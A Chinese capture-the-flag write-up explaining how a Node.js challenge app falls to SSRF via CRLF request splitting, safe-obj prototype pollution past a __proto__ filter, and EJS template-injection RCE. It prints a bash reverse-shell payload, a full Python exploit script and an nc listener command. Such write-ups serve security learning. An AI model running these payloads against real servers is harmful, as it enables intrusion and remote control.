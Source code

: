 ![](<./img/Pasted image 20230202140119.png>)

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/', (req, res) => {
    if (req.query.q) {
        console.log('get q');
    }
    res.render('index');
})
router.post('/copy', (req, res) => {
    res.setHeader('Content-type', 'text/html;charset=utf-8')
    var ip = req.connection.remoteAddress;
    console.log(ip);
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg = "only for admin"
        res.send(JSON.stringify(obj));
        return
    }
    let user = {};
    for (let index in req.body) {
        if (!index.includes("__proto__")) {
            safeobj.expand(user, index, req.body[index])
        }
    }
    res.render('index');
})

router.get('/curl', function (req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
        try {
            http.get(url, (res1) => {
                const {statusCode} = res1;
                const contentType = res1.headers['content-type'];

                let error;
                // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                if (statusCode !== 200) {
                    error = new Error('Request Failed.\n' +
                        `Status Code: ${statusCode}`);
                }
                if (error) {
                    console.error(error.message);
                    // 消费响应数据以释放内存
                    res1.resume();
                    return;
                }

                res1.setEncoding('utf8');
                let rawData = '';
                res1.on('data', (chunk) => {
                    rawData += chunk;
                    res.end('request success')
                });
                res1.on('end', () => {
                    try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData + '');
                    } catch (e) {
                        res.end(e.message + '');
                    }
                });
            }).on('error', (e) => {
                res.end(`Got error: ${e.message}`);
            })
            res.end('ok');
        } catch (error) {
            res.end(error + '');
        }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

存在三个路由，其中`/copy`只能由本地访问，`/curl`通过`http.get`方法访问`/`

要想访问`/copy`路由，需要通过`/curl`进行SSRF

参考 [NodeJS 中的 CRLF Injection](https://web.archive.org/web/20231216212929/https://www.anquanke.com/post/id/240014#h2-11)

利用node.js的`http`模块对于Unicode字符截取低位字节的特性，可以绕过低版本node.js对CRLF的转义，实现HTTP的响应拆分，获得对`/copy`的访问能力

---

`/copy`中可以利用的是`safe-obj`模块

参见 [safe-obj模块原型链污染](https://xz.aliyun.com/t/12053#toc-17)

利用`safe-obj`的`expand`函数，可以实现为任意对象添加字符串属性

```javascript
if (!index.includes("__proto__")) {
	safeobj.expand(user, index, req.body[index])
}
```

源码中过滤了`__proto__`，然而通过`constructor.prototype`亦能获取到原型

---

参考 [(CVE-2022-29078)The RCE exploit 🔥🔥](https://eslam.io/posts/ejs-server-side-template-injection-rce/#the-rce-exploit-)

`ejs`模块低版本有这样的逻辑

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

将未经过转义处理的`outputFunctionName`通过拼接方式加入代码中执行，前提是`opts`能够解析出`outputFunctionName`属性

于是构造`POST`内容

```javascript
constructor.prototype.outputFunctionName=x;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');s
```

来实现反弹shell

---

最终脚本如下

```python
import requests
from urllib.request import quote

payload = """ HTTP/1.1

POST /copy HTTP/1.1
Host: 127.0.0.1
Content-Length: {}
Content-Type: application/x-www-form-urlencoded

{}

GET / HTTP/1.1
test:""".replace('\n', '\r\n')

body = """constructor.prototype.outputFunctionName=x%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/xxx.xxx.xxx.xxx/2333%200%3E%261%22%27%29%3Bs"""

payload = payload.format(len(body), body)


def payload_encode(raw):
    res = ''
    for i in raw:
        res += chr(0x0100 + ord(i))
    return res


requests.get(
    'http://3000.endpoint-68e34d3c59d64675ad67a1b75741c685.m.ins.cloud.dasctf.com:81/curl?q='
    + quote(payload_encode(payload)))

```

vps上开启监听

```shell
nc -lvvp 2333
```

![](<./img/Pasted image 20230202150044.png>)

#Web #nodejs #HTTP #CRLF #SSRF #safe-obj #原型污染 #js #ejs #RCE #Vulnerabilities #反弹shell 
